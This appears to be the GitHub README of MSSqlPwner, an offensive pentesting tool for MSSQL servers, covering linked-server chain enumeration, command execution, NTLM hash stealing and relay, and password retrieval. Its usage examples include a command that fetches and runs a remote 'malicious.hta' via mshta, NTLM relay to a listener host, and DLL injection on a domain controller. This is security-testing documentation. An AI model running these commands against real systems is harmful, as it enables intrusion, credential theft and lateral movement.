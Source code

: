 # MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, and command execution.

This tool provide opportunities for lateral movement assessments and exploration of linked servers.

If the authenticated MSSQL user does not have permission to execute certain operations, the tool can find a chain that might allow the execution. 
For example, it can send a query to a linked server that returns back with a link to the authenticated MSSQL service with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers directed from the compromised MSSQL service.

## Example
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/poc.png?raw=true">
</p>

This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Utilities:
- `interactive`: allow to use the tool interactively with live execution.
- `enumerate`: enumerate the linked servers and the chains.
- `get-chain-list` get the list of the chains.
- `get-link-server-list` get the list of the linked servers.
- `set-chain` Set chain ID (For interactive-mode only!)
- `set-link-server` Set link server (For interactive-mode only!)
- `get-rev2self-queries` retrieve queries to revert to SELF (For interactive-mode only!).
- `get-adsi-provider-list` retrieve ADSI provider list.
- `rev2self` revert to SELF (For interactive-mode only!).

2. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` Execute commands using `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` Execute commands using Ole Automation Procedure technique on local server or on linked servers

3. Password Retrieval:
- `retrive-password` Password retrieval from the linked server.

4. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` NTLM stealing using directory listing on local server or on linked servers
- `xp_subdirs` NTLM stealing using subdirectory listing on local server or on linked servers
- `xp_fileexist` NTLM Stealing using file existence check on local server or on linked servers

5. Procedure execution using custom assembly and stored procedures:
- `execute_command` procedure executing commands using custom assembly on local server or on linked servers
- `run_query` procedure executing queries using custom assembly on local server or on linked servers
- `run_query_system_service` procedure executing queries using custom assembly on local server or on linked servers as system user
- `inject-custom-asm` Inject code using custom assembly on local server or on linked servers
6. Direct Queries 
- `direct_query` Execute direct queries on local server or on linked servers


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/ScorpionesLabs/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Interactive mode
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth interactive


# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password

# Execute code using custom assembly on the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm test.dll
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
- [Pablo Martínez](https://www.tarlogic.com/blog/linked-servers-adsi-passwords/) for the inspiration and the idea of the retrieving password technique.
- [Omri Baso](https://www.linkedin.com/in/omri-baso-875aaa191/) for helping with inspiration and ideas.